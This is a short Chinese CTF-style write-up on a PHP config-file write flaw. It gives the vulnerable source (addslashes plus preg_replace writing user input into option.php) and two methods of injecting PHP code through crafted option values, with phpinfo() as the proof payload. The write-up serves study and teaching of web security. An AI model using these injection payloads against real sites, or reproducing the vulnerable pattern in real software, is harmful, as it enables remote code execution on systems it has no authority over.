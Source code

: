 # Challenge
index.php
```php
<?php
$str = addslashes($_GET['option']);
$file = file_get_contents('xxxxx/option.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('xxxxx/option.php', $file);
```
xxxxx/option.php
```php
$option='test';
```
# Solution
流程如下：
1. 对传入的option参数进行addslashes，比如有单引号`'`，会变成`\'`
2. 通过正则匹配xxxxx/option.php中的`$option='xxx';`，将xxx的内容替换为经第一步处理的值
3. 替换完成，将其写入xxxxx/option.php。

场景： 用于写入配置文件等。

## 法一
先访问：
```
?option=aaa';%0aphpinfo();//
```
经过addslashes后，$str值为 `aaa\';%0aphpinfo();//`

进行正则匹配并写入文件，xxxxx/option.php的内容变为:
```php
<?php 
$option='aaa\';
phpinfo();//';
?>
```

再访问：
```
?option=xxx
```
正则匹配时，会将两个单引号里的内容即 `aaa\` ，替换为 `xxx`，此时xxxxx/option.php的内容变为
```php 
<?php
$option='xxx';
phpinfo();//';
?>
```

最后访问：/xxxxx/option.php

## 法二
访问：
```
?option=aaa\';phpinfo();//
```
经过addslashes后，$str为 `aaa\\\';phpinfo();//`

经过preg_replace正则匹配后，对`\`做了转义处理,xxxxx/option.php的内容变为：
```
<?php 
$option='aaa\\';phpinfo();//';
?>
```

最后访问：/xxxxx/option.php

# Refference 
+ p神的小秘圈
+ [l3m0n：小密圈专题(1)-配置文件写入问题](http://www.cnblogs.com/iamstudy/articles/config_file_write_vue.html)